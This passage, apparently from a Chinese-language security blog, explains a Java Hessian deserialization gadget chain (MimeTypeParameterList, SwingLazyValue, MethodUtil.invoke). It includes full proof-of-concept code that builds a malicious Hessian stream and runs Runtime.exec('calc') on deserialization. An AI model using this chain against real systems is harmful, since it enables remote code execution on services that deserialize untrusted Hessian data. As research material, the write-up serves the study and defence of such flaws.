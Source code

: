 ```java
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```

```java
public class test {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```





## （第二条链子）MimeTypeParameterList+SwingLazyValue+MethodUtil.invoke

大佬们又找到了另外一条链，`javax.activation.MimeTypeParameterList`

同样的Hashtable同样的get

![image-20231123112622977](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123112622977.png)

只不过末尾用的MethodUtil#invoke，不是BCEL加载器

![image-20231123112830390](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231123112830390.png)

```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import sun.swing.SwingLazyValue;

import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Hessian_MimeTypeParameterList_SwingLazyValue_MethodUtil {
    public static void main(final String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);

        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});

        uiDefaults.put("key", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        baos.write(67);
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(mimeTypeParameterList);
        output.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }
```